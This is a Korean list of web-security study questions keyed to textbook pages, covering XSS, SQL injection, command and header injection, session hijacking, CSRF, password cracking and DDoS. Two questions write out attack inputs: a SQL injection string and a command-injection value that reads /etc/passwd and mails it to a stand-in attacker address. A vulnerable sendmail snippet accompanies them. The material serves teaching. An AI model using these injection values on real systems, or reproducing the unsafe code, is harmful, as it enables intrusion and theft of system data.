 ## 질문 목록

### 1. 크로스 사이트 스크립팅(XSS)란 무엇인가? (270p)

### 2. SQL Injection이란 무엇인가? (276p)

### 3. `SELECT * FROM bookTBl WHERE author='우에노 센'--' and flag=1;` 에서 인젝션이 발생하는 원인을 설명하시오. (281~282p)

### 4. 다음 스크립트에서 공격자가 메일 주소 값 $adr에 `; cat /etc/passwd | mail hack@example.jp`를 보낸다면 실제 프로그램 내에서 구성되는 명령은 어떻게 해석되는지 쓰시오. (283~284p)

```php
my $adr = $q -> param('mailaddress');
open(MAIL, "| /usr/sbin/sendmail $adr");
print MAIL "From: info@example.com\n"
```

### 5. HTTP Header Injection이란 무엇인가? (284p)

### 6. 인증 기능에서 `메일 주소가 등록되어 있지 않습니다` 와 같은 에러 메시지는 왜 문제가 되는가? 그렇다면 올바른 에러 메시지는 무엇인가? (296~297p)

### 7. (응용) Session Hijack에 대해서 설명하고, XSS를 이용한 Session Hijack을 방지하기 위한 방법은 무엇인가? (299p~301p, 176p)

### 8. CSRF 공격에 대해서 설명하시오. (303p)

### 9. 암호화 된 패스워드로부터 평문을 도출하는 방법 중 무차별 대입 공격/사전 공격에 의한 유추와 레인보우 테이블에 대해서 설명하시오. (309~310p)

### 10. DDoS 공격에 대하여 설명하시오. (312~313p)
